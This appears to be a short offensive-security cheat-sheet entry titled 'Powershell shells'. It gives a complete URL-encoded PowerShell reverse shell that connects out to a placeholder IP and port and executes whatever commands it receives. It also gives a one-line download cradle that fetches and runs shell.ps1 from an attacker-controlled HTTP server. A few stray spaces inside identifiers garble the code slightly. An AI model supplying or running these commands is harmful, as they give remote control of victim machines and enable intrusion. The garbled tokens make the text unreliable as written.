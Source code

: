 ## Powershell shells

###PowerShell Reverse Shell ( & and + symbols URLencoded )
```
powershell -c "%24client = New-Object System.Net.Sockets.TCPClient('<ipp>',<port>);%24stream = %24client.GetStream();[byte[]]%24bytes = 0..65535|%{0};while((%24i = %24stream.Read(%24bytes, 0, %24bytes.Length)) -ne 0){;%24data = (New-Object -TypeName System.T ext.ASCIIEncoding).GetString(%24bytes,0, %24i);%24sendback = (iex %24data 2>&1 | Out-String ); %24sendback2 = %24sendback %2B 'PS ' %2B (pwd).Path %2B '> ';%24sendbyte = ([text.encoding]::ASCII ).GetBytes(%24sendback2);%24stream.Write(%24sendbyte,0,%24sendbyte.Length);%24stream.Flush()};%24c lient.Close()"
```
Download a bindshell
```
'powershell "IEX(New-Object Net.WebClient).downloadString(\"http://IP:8000/shell.ps1\")"'
```
